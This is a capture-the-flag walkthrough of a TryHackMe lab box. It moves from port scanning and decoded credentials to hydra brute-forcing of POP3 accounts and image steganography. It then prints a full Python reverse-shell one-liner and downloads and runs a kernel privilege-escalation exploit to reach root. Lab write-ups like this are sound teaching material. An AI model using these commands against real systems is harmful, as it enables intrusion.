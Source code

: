 `Machine ip: xx.xx.xxx.xx`

Running a nmap scan on the target we get the open ports:

`Open Ports:
25 stmp
80 http
55007 pop3
55006 
`

`Password from website source:
73 110 118 105 110 99 105 98 108 101 72 97 99 107 51 114
InvincibleHack3r --> decoded`

Search and replace for converting to a form that some online decoder can understand.

The site says navigate to a /sev-home/, so do that. Now we're at a login screen.

We know the username is boris from the source and we decoded the password.

`User: boris Password: InvincibleHack3r (For the http port)`

These creds don't work when we try to login into pop3 port [pop3 command line](https://electrictoolbox.com/pop3-commands/). So, we use hydra to brute-force the password there.

We don't anything for boris so we try again with natalya.

`hydra -l natalya -P /usr/share/wordlists/fasttrack.txt pop3://10.10.28.74:55007`

We get a hit for the natalya 

`User: natalya Password: bird (For the pop3 port)`

After connecting to the pop3 port we use pop3 commands to get to the information we need.

list command lists the files and retr \<filename\> displays them. We see 2 mails but the first one is useless and the second one contains some creds.

`User: xenia Password: RCP90rulez!(For the http port)`

We got the password but the mail said: 
`And if you didn't have the URL on outr internal Domain: severnaya-station.com/gnocertdir
**Make sure to edit your host file since you usually work remote off-network....
Since you're a Linux user just point this servers IP to severnaya-station.com in /etc/hosts.`

So we add \<machine_ip\> severnaya-station.com/gnocertdir to our /etc/hosts to access it on the browser.

Now logging as xenia in that website. According to tryhackme, we need to find another user. He is named doak. We try to brute-force his password again using hydra. 

`User: doak Password: goat(For the pop3 port)`

We login into doak's pop3 account and read his emails too to get his http site password.

`User: dr_doak Password: 4England!(For the http port)`

Logging into the website using these creds we poke around even further. We find a file called s3cret.txt.

It redirects us to a `/dir007key/for-007.jpg` saying there is something juicy there.

It's an image with some stegnography probably. Running exiftool command, we see the image description is base64. Decoding it we get 'xWinter1995x!'

we can assume this is the password for the admin user as that was the only other account in dr_doak.

We log into admin account using these creds.

`User: admin Password: xWinter1995x!`

Tryhackme told us to look for Aspell. We can search for it in the search bar below and we find a place to add a python reverse shell :).
We also need to change the spell engine to *PspellShell* that's after googling I found out that that's what's compatible with python.

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your_ip>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

Listening to the port on our system we get a shell. To find the kernal version we use _uname -a_.

The kernel version is 3.13.0-32-generic which is a very outdated kernel so exploit.db must have a priv esc script. There is [one](https://www.exploit-db.com/exploits/37292) and then download it onto the vm server
using python simple http server and wget.

_python -m SimpleHTTPServer_

Trying to compile the code using `gcc` we find that `gcc` is not installed but cc is.

So all we need to do is to replace `gcc` by `cc` in the exploit.

_sed -i "s/gcc/cc/g" overlayfs.c_

Now we compile and run this to get root access.

_cc overlayfs.c -o root_access_
_./root_access_

We get some warnings but we can ignore them for now as we're root already.

Now nagvigate over to the root floder and `cat` the hidden root flag.

#And We're Done!
